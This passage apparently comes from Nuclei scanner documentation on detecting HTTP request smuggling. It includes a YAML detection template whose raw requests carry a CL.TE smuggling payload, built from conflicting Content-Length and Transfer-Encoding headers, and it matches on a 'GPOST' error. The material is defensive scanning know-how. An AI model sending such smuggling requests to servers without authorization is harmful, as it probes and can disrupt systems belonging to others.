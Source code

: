 In the open source space, detecting http smuggling is difficult particularly due to the requests for detection being malformed by nature. Nuclei is able to reliably detect HTTP Smuggling vulnerabilities utilising the [rawhttp](https://github.com/projectdiscovery/rawhttp) engine.

The most basic example of an HTTP Smuggling vulnerability is CL.TE Smuggling. An example template to detect a CE.TL HTTP Smuggling vulnerability is provided below using the `unsafe: true` attribute for rawhttp based requests.

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G      
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
            
    unsafe: true
    matchers:
      - type: word
        words:
          - 'Unrecognized method GPOST'
```

More examples are available in [template-examples](https://nuclei.projectdiscovery.io/template-examples/http-smuggling/
) section for smuggling templates.
